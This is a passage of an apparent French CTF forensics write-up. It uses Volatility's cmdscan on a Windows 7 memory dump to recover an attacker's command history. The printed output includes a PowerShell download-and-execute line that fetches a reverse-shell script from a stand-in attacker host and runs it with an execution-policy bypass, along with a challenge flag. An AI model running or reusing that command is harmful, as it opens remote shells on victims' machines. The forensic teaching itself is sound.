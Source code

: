 On va choisir le 2e profile proposÃ©, celui-ci fonctionne souvent pour des machines sous Windows 7. Pour vÃ©rifier que c'est le bon profile on peut par exemple chercher l'historique des commandes `cmd` :

```
$ volatility -f dump.raw --profile=Win7SP0x86 cmdscan
Volatility Foundation Volatility Framework 2.6.1
**************************************************
CommandProcess: conhost.exe Pid: 4604
CommandHistory: 0x3c2750 Application: powershell.exe Flags: Allocated
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x84
**************************************************
CommandProcess: conhost.exe Pid: 4604
CommandHistory: 0x3e1d60 Application: cmd.exe Flags: Allocated, Reset
CommandCount: 4 LastAdded: 3 LastDisplayed: 3
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x58
Cmd #0 @ 0x3e2e80: ping my-none-ethical-hacking-server.thief.org
Cmd #1 @ 0x3e2fe0: cd "C:\Users\Public\Documents\hidden"
Cmd #2 @ 0x3c2658: IEX (New-Object Net.WebClient).DownloadString(\"http://my-none-ethical-hacking-server.thief.org/reverse-shell.ps1\")
Cmd #3 @ 0x3e30a8: powershell -ep Bypass -file ".\reverse-shell.ps1"
Cmd #5 @ 0x330030: ?
Cmd #18 @ 0x300030: ?
Cmd #36 @ 0x3b00c4: =?>?;???;
Cmd #37 @ 0x3dd038: <?;?????;?;

**************************************************
CommandProcess: conhost.exe Pid: 3884
CommandHistory: 0x131d60 Application: cmd.exe Flags: Allocated, Reset
CommandCount: 13 LastAdded: 12 LastDisplayed: 12
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x58
Cmd #0 @ 0x127428: whoami
Cmd #1 @ 0x12ebe0: pwd
Cmd #2 @ 0x12ec10: dir
Cmd #3 @ 0x127440: cd ..
Cmd #4 @ 0x12d580: cd Desktop
Cmd #5 @ 0x111de8: cd Mes-vms.fr/Desktop
Cmd #6 @ 0x12ec30: di
Cmd #7 @ 0x12ec40: dir
Cmd #8 @ 0x130570: echo "Got U fucker !!!!" > .Pwned
Cmd #9 @ 0x135ec8: echo "PHACK{STEP_1-IC4nD0Wh4TuD0}" >> .Pwned
Cmd #10 @ 0x12d5e0: rm .Pwned
Cmd #11 @ 0x12d600: systeminfo
Cmd #12 @ 0x137278: echo "PHackCTF Rocks!"
Cmd #36 @ 0x1000c4: ?????
Cmd #37 @ 0x12d038: ???????

**************************************************
CommandProcess: conhost.exe Pid: 3048
CommandHistory: 0x321d60 Application: cmd.exe Flags: Allocated, Reset
CommandCount: 1 LastAdded: 0 LastDisplayed: 0
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x58
Cmd #0 @ 0x326e98: C:\Users\Mes-vms.fr\Downloads\winpmem_mini_x86.exe C:\Users\Mes-vms.fr\Downloads\dump.raw
[...]
```
